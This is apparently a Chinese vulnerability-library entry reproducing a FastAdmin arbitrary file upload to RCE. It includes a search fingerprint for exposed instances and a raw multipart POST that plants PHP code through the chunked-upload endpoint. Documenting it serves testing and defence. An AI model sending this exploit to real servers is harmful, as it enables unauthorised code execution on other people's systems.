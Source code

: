 # 

# FastAdmin 远程代码执行漏洞

## 漏洞描述

FastAdmin是一款基于ThinkPHP和Bootstrap的极速后台开发框架。FastAdmin框架存在有条件RCE漏洞，当攻击者具有一定用户权限的前提下，可以实现任意文件上传，导致RCE。

参考链接：

- https://mp.weixin.qq.com/s/otrH75ZjCHBQbRB7g5DdWg
- https://nosec.org/home/detail/4713.html

## 网络测绘

```
app="FASTADMIN-框架" || body="\"uploadurl\":\"ajax\/upload\"" || body="api.fastadmin.net" || body="\"fastadmin\":{\"usercenter\":true" || body="content=\"FastAdmin\"" || body="cdnurl\":\"\",\"version"|| icon_hash="-1036943727"
```

## 漏洞复现

前期准备：

1. 该接口至少需要普通用户权限，可以先在前台注册一个用户然后登录。
2. 需要修改默认配置才能使用分片上传功能。设置 application/extra/upload.php 下的chunking 项为 true。
3. 可使用 application/index/controller/Ajax 下的 upload() 方法作为入口点。根据 tp5 的路由，访问该入口点的 url 为 index.php?s=index/ajax/upload。

上传头像处post：

```
//传入xx.php
POST /index/ajax/upload HTTP/1.1
Host: target

------WebKitFormBoundarybw5c2a2bqlLLOMEU
Content-Disposition: form-data; name="file"; filename="Xnip2021-04-02_11-05-27.png"
Content-Type: application/octet-stream

PNG
...
<?php phpinfo();?>
------WebKitFormBoundarybw5c2a2bqlLLOMEU
Content-Disposition: form-data; name="chunkid"

xx.php

------WebKitFormBoundarybw5c2a2bqlLLOMEU
Content-Disposition: form-data; name="chunkindex"

0
------WebKitFormBoundarybw5c2a2bqlLLOMEU
```

![image-20221206160222513](images/image-20221206160222513.png)
